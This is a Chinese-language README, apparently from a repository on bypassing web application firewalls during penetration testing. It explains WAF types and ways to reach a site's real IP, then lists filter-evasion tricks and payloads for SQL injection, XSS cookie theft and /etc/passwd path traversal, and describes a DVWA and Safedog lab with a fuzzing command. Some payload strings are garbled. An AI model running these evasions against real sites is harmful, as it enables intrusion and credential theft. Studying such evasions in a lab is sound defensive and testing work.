


# BypassWAF

Web应用防护系统（也称为：网站应用级入侵防御系统。英文：Web Application Firewall，简称： WAF）。
利用国际上公认的一种说法：Web应用防火墙是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的一款产品。
而在日常的渗透测试当中，如果遇到了拥有WAF防护的网站，当发送带有payload的数据包被防火墙阻断时，则会失去快乐。
所以通过特定的方式绕过防护，是一项有意思的任务。但需要额外注意的是：BypassWAF与免杀是不同的。


## 一 WAF的不同类型

WAF的工作流程图大致如下，可以简单的概况为：WAF在网站服务器前面提供一层过滤攻击流量的功能。




而WAF提供在部署的方式上，存在着不同的类型。概况下来大致存在三类：

```
1、云WAF
2、铁盒子
3、软件类
```


## 二 BypassWAF的取巧型应对

### 2.1 找到真实IP

在具有WAF的渗透测试场景中，网站的访问流程如下：

```
终端用户-->WAF-->webserver
```

而如果通过修改hosts文件，将访问的流程进行调整，则可以直接跳过WAF的检测。

```
终端用户-->webserver
```

所以寻找到真实IP在应对云WAF的场景中则会是很好用的策略。

寻找真实IP可以采用的思路有几种：

```
1、通过fofa、shadon类的工具搜索title或其他关键字
2、DNS的解析历史
3、通过其他子站点推测
```


### 2.2 寻找无指纹漏洞

WAF在阻断的过程中，常常采用正则表达式或基于行为判定的方式进行阻断。为此WAF在对于没有指纹的攻击方式无能为力。

而常见的无指纹类攻击方式包括：逻辑漏洞、口令类漏洞、CSRF......


## 三 BypassWAF的男人型应对

### 3.1 常用的Bypass方案

在BypassWAF的过程中，所使用的思路可以总结为以下三种方式：

```
1 使WAF跳过输入验证
2 使WAF的解释与后端不一致
3 使WAF未检测到对应的规则
```

1 跳过参数验证：

PHP从参数名中删除空格或将其转换为下划线

```
http://xxx.com/test.php?%20testid=select 1,2,3
```

ASP删除不后面跟着两个十六进制数字的%字符

```
http://xxx.com/test.aspx?%testid=select 1,2,3
```

通过这种方式绕过不拒绝未知参数的WAF。


2 格式错误的HTTP请求方式

配置错误的web服务器可能接受格式错误的HTTP请求方式，可以绕过仅限定定GET和POST方式的WAF。

```
将GET改为hello
```


3 加载waf的负载

如果WAF性能负载过重的情况下，可能会跳过输入验证。通常可以发送打了的恶意请求。

对于嵌入式WAF或许更适用。


4 HTTP参数污染

发送多个同名的参数，如：

```
http://xxx.com/test/?test=1&test=2

ASP.NET中，会处理成test=1,2
JSP中，会处理成test=1
PHP中，会处理成test=2
```

所以当payload为test=select 1,2,3 from tables的时候，可以将其改变为：

```
test=select 1&select 2,3 from tables
```

 

5 双重URL编码

WAF会将URL编码的字符规范化为ASCII文本，所以使用双重编码可能会导致绕过。

```
s --> %73 -->%25%37%33
```

所以可以将payload修改成双重URL编码的格式

```
1 union %25%37%33elect 1,2,3
```


6 使WAF未检测到对应的规则

在找到缺少的规则方式中，需要有一定的流程设计，例如将waf部署好后，关闭拉黑的机制，然后进行fuzz的测试。

为此，整个的测试当中，如果以目的为导向的话，那么的目的是找到一条一句的方式，WAF不认为是恶意语句，但这条的恶意语句可以在网站中执行。

在SQL注入的绕过中，可以尝试的语法方式：

```
###原本为 ’ or 1=1
or 9=9
or 0x47 = 0x47 -->ASCII
or char(32) = ''
or 9 is not null

###原本为 1+union+select+1,2,3/*
1/*union*/union/*select*/select+1,2,3/* 
1/*uniXon*/union/*selXect*/select+1,2,3/*
UNION ALL SELECT

###其他的绕过方式
id=-15 uNloN sELecT 1,2,3,4
id=-15&nbsp;UNlunionON SELselectECT1,2,3,4 
id=1%252f%252a*/UNION%252f%252a/SELECT 
id=-15/*!u%6eion*/ /*!se%6cect*/ 1, 2,3,4...SELECT(extractvalue(ox3C613E61646D6g6É3C2F613E,ox2f61) 
id=10%D6'%20AND%201=2%23 - SELECT 'A'='A'; #1
```

在xss中，可以尝试的语法方式：

```
###原本为:Alert('xss')或Alert (1)
Prompt('xss')
Prompt(454)	
Confirm('xss') 
Confirm(123)
Alert(/xss/.source) 
Window[/alert/.source](8)

###原本为:alert(document['cookie'])
alert(document[/coo/.source+/kie/.source])
alert(document[/cookie/.source])
with(document)alert(cookie)
alert(document.cookie)

###原本为: < img src=x onerror=alert(1);> 或javascript:alert(document.cookie)
<svg/onload=alert(1)>
<video src=x onerror=alert(1);>
<audio src=x onerror=alert(1);>
Data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

在文件包含中，可以尝试的语法方式：

```
###原本为:/etc/passwd
/too/abc/etc/far/.../passwd
/../../../../etc/passwd%oo
/etc//passwd
/etc/ignore/../passwd
/etc/passwd....
```

在文件上传中，可以尝试的方式：

```
文件名的变化
webshell的免杀
```


### 3.2 环境的搭建

```
安装windows server
安装phpstudy
配置phpstudy+dvwa
安装安全狗windows版
如果提示找不到Apache服务，cmd进入到Apache路径中，httpd.exe -k install -n apache2
校验防护是否存在
关闭黑名单功能(IP黑白名单)。
关闭CC攻击防护（资源防护）
```

  


### 3.3 Bypass方案测试

```
1000'union select user,password from dvwa.users#

使用tools生成大量的payload
python3 tta.py -p "1000'union select user,password from dvwa.users#" -l 3 -o 1
在关闭安全狗防护的情况下，使用burp进行fuzz-->清洗出来可用的payload

在开启安全狗的情况下，使用清洗后的payload进行fuzz，找到可以使用成功的payload
```


